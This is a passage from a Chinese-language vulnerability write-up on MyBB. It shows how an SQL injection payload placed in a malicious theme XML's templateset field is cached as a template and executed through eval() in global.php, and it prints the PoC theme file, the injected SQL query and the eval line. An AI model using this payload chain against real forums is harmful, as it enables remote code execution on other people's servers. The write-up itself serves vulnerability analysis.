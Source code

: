 **思考攻击步骤**
1. 导入包含SQL注入paylaod 的 XML主题配置文件，使 `templateset` 为注入语句
<li>切换 mybb 主题为新增的恶意主题，不然 `$theme` 无法切换到恶意的 `templateset`
</li>
1. 访问首页即可 RCE
### <a class="reference-link" name="poc"></a>poc

**恶意主题文件：**

```
......
&lt;properties&gt;
        &lt;templateset&gt;&lt;![CDATA[999') and 1=2 union select 'header_welcomeblock_member_user','$`{`phpinfo()`}`'#]]&gt;&lt;/templateset&gt;
......
```

**导入恶意主题文件**

**切换当前主题为恶意主题**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014f461cb2ec856e46.png)

**访问下首页：**

**调用到 `cache()` 时，`theme['templateset']`的值：**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t011dd2d6448e7360dc.png)

`cache()` 中执行的 SQL语句：

```
SELECT title,template FROM mybb_templates 
WHERE title IN (......) 
AND sid IN ('-2','-1','999') 
and 1=2 /* 强行使前面的语句返回空行 */
union select 'header_welcomeblock_member_user','$`{`phpinfo()`}`'
#')

```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c24e6ac1d4dd81e3.png)

成功在 cache 中写入了恶意代码。

随后在 `global.php` 中调用了

```
eval('$usercplink = "'.$templates-&gt;get('header_welcomeblock_member_user').'";');
```

在 `get()` 函数中，查询 `$this-&gt;cache`，存在对应的 `title` ，直接返回 `$this-&gt;cache[$title]`

